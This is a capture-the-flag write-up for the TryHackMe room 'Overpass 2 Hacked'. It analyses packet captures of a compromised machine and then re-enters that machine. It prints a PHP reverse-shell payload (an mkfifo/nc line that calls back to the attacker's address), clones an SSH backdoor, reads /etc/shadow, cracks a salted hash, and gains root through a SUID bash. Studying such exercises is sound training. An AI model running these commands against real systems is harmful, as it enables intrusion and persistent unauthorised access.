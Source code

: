 # [Overpass 2 Hacked](https://tryhackme.com/room/overpass2hacked)
> Darshan Patel

## Overview

| Tables | Description |
| ------ | ----------- |
| Challenge Name | Overpass-2-Hacked |
| Difficulty | Medium |
| Tags | security, forensics, wireshark|


---

An analysis of the wireshark data of a hacked computer

You can quickly see that an IP of `192.168.170.145` uploads `payload.php`

In the packet analysis you can see that it has a php payload in it
```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
which is standard code for a reverse shell

They then explore the directories and su into james
```
whenevernoteartinstant
```

Checks his sudo permissions and has permission to sudo anything

After which they git clone a persistence module
```
git clone https://github.com/NinjaJc01/ssh-backdoor
```

Now they `sudo cat /etc/shadow`

We can see that there are several weak hashes (cracked by john using the fast track wordlist)

they also generate an ssh key `id_rsa`

---
 
Analysing the code we can see that it takes a hash as an input and uses a hardcoded salt

`bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3` is the default hash
`1c362db832f3f864c8c2fe05f2002a05` hardcoded salt
`6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed` user hash

crack the hash using hashcat mode 1710 in the format `hash:salt` with the rockyou wordlist

Cracked the password:
`november16`

---

Hacking back into the machine

IP=`10.10.42.43`

Had to use port 2222 to ssh in through the backdoor

sudo passwords were changed

noticed a .suid_bash file in james home directory
decided to run that with -p
got root access

Got both flags!
